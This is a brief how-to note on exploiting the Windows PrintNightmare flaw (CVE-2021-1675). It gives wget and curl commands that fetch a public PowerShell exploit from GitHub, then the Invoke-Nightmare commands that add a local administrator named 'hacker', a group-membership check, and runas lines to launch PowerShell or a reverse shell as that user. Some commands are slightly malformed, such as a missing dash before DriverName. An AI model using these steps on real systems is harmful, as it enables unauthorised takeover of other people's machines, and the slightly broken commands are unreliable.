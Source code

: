 https://github.com/calebstewart/CVE-2021-1675

wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1
curl https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1 -o CVE-2021-1675.ps1

In Powershell,

`Import-Module .\ CVE-2021-1675.ps1`

Create a new admin user

`Invoke-Nightmare -NewUser "<username to create >" -NewPassword <password for that new user> DriverName "PrintMe"`
  
`Invoke-Nightmare -NewUser "hacker" -NewPassword "password1234" DriverName "PrintMe"`

Check if user was added

`net localgroup administrators`

Run powershell as SYSTEM

`runas /user:hacker powershell.exe`
 
 or reverse shell
 
`runas /user:hacker shell.exe`

  
  
https://www.hackercoolmagazine.com/printnightmare-privilege-escalation-with-powershell/
